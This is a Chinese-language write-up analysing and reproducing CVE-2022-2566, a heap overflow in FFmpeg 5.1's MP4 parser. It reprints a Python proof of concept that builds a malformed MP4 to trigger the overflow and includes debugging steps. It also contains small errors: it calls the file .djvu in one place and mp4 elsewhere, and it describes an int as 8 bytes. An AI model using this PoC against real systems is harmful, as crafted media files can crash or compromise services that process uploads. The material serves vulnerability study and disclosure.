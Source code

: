 # CVE-2022-2566 分析和复现

> FFmpeg v5.1 堆越界内存写入(.djvu文件)

## 0x00 背景

`FFmpeg`  https://www.ffmpeg.org/

它视频处理最常用的开源软件。它功能强大，用途广泛，大量用于视频网站和商业软件（比如 Youtube 和 iTunes），也是许多音频和视频格式的标准编码/解码实现。

在 `libavformat/mov.c `中发现了影响 FFmpeg 自 5.1 版或提交 ab77b878f1205225c6de1370fb0e998dbcc8bc69 的堆越界写入。

Google的分析：[FFmpeg: Heap Out-Of-Bounds Write in build_open_gop_key_points · Advisory · google/security-research (github.com)](https://github.com/google/security-research/security/advisories/GHSA-vhxg-9wfx-7fcj)

该漏洞被定位是高危漏洞（*High*），攻击者可以通过恶意 mp4 文件导致远程代码执行（RCE）。

## 0x01 漏洞分析

根据CVE描述，可以知道漏洞在 ab77b878f1205225c6de1370fb0e998dbcc8bc69 提交中引入。

而对应的修复commit为：6f53f0d09ea4c9c7f7354f018a87ef840315207d。

对应的修复：

[avformat/mov: Check count sums in build_open_gop_key_points() · FFmpeg/FFmpeg@6f53f0d (github.com)](https://github.com/FFmpeg/FFmpeg/commit/6f53f0d09ea4c9c7f7354f018a87ef840315207d)

![fix](https://pic1.imgdb.cn/item/634fc0f416f2c2beb16005d9.png)

可以看到关键代码为：

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        sc->sample_offsets_count += sc->ctts_data[i].count;
````

而变量` sc->sample_offsets_count`被定义为`int`

````c
int sample_offsets_count;
````

所以`sc->sample_offsets_count`为8字节数，如果最大值超过`INT_MAX`则会发生整数溢出。

这个整数溢出会影响接下来malloc的申请：

````c
sc->sample_offsets = av_calloc(sc->sample_offsets_count, sizeof(*sc->sample_offsets));
````

````c
void *av_calloc(size_t nmemb, size_t size) av_malloc_attrib av_alloc_size(1, 2);
````

![](https://pic1.imgdb.cn/item/634ff67a16f2c2beb1bd971d.png)

如果出现整数溢出导致` sc->sample_offsets_count == 0`就会导致`av_calloc`申请最小的chunk

也就是`sc->sample_offsets`会指向一个0x20的chunk

之后会把每个ctts的duration写入这个chunk中：

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        for (int j = 0; j < sc->ctts_data[i].count; j++)
             sc->sample_offsets[k++] = sc->ctts_data[i].duration;
````

如果`sc->ctts_data[i].duration`过长，就会产生堆溢出。

## 0x02 POC调试

这里给出Google安全研究员提供的POC

````python
#!/usr/bin/env python3
import struct
import sys

HEVC_NAL_CRA_NUT = 21


def atom(tag, chunk):
  data = struct.pack('>I', len(chunk) + 8)
  data += tag
  data += chunk
  return data


def atom_ftyp():
  data = b''
  data += b'mp42'  # type
  data += struct.pack('>L', 0)  # minor_ver
  return atom(b'ftyp', data)


def atom_moov(nested):
  return atom(b'moov', nested)


def atom_trak(nested):
  return atom(b'trak', nested)


def atom_hev1():
  return atom(b'hev1', b'')


def atom_stsd(nested):
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += struct.pack('>I', 1)  # entries
  data += nested
  data += b'\0' * 70
  return atom(b'stsd', data)


def atom_sgpd():
  data = b''
  data += struct.pack('<I', 1)  # version & flags
  data += b'sync'  # grouping_type
  data += struct.pack('>I', 1)  # default_length
  data += struct.pack('>I', 1)  # entry_count
  # entry 0
  data += struct.pack('>B', HEVC_NAL_CRA_NUT)  # nal_unit_type
  return atom(b'sgpd', data)


def atom_sbgp():
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += b'sync'  # grouping_type
  data += struct.pack('>I', 2)  # entries
  # entry 0
  data += struct.pack('>I', 1)  # sample_count
  data += struct.pack('>I', 1)  # group_description_index
  # entry 1
  data += struct.pack('>I', 0xffffffff)  # sample_count
  data += struct.pack('>I', 1)  # group_description_index
  return atom(b'sbgp', data)


def atom_ctts():
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += struct.pack('>I', 4)  # entries
  # entry 0
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 1
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 2
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 3
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  return atom(b'ctts', data)


def main():
  if len(sys.argv) != 2:
    print('Usage: poc.py out.mp4')
    return -1

  data = atom_ftyp() + atom_moov(
      atom_trak(
          atom_stsd(atom_hev1()) + atom_sgpd() + atom_sbgp()
          + atom_ctts()
      ))

  open(sys.argv[1], 'wb').write(data)


if __name__ == '__main__':
  main()
````

这里可以看到，生成的这个mp4文件中存在4个`ctts`结构体，每个的count和duration为：

````python
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
````

也就是会使得`sc->ctts_data[i].count == 0x40000000 `

而我们一共有4个`ctts`结构，也就是`0x40000000*4 = 0x100000000`

而`INT(0x100000000) == 0`，所以这个运行这个poc得到的mp4文件就会使得`ffmpeg`出现整数溢出问题。

我们编译一份存在漏洞版本的`ffmpeg`，编译之后得到的二进制文件``ffmpeg_g``就是有GDB调试符号的程序。

在`build_open_gop_key_points()`函数打断点：

![](https://pic1.imgdb.cn/item/634ff85516f2c2beb1c0bf1a.png)

![](https://pic1.imgdb.cn/item/634ffd0716f2c2beb1c8b975.png)

可以看到：

![](https://pic1.imgdb.cn/item/634ffd2116f2c2beb1c8e8e0.png)

之后运行这个for循环：

![](https://pic1.imgdb.cn/item/634ffd6016f2c2beb1c95a26.png)

也就是整数溢出使得这个值为0，也就是`av_calloc`会申请出一个0x20的chunk

![](https://pic1.imgdb.cn/item/634ffe4116f2c2beb1caf53d.png)

![](https://pic1.imgdb.cn/item/634ffeac16f2c2beb1cbafe2.png)

![](https://pic1.imgdb.cn/item/634ffeb516f2c2beb1cbbf45.png)

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        for (int j = 0; j < sc->ctts_data[i].count; j++)
             sc->sample_offsets[k++] = sc->ctts_data[i].duration;
````

但是由于`sc->ctts_data[i].count == 0x40000000`，所以会直接覆盖接下来的`0x40000000*4`个字节的堆区，产生堆溢出Heap overflow

## 0x03 利用

> 暂时没有想到好的利用方法，，，，

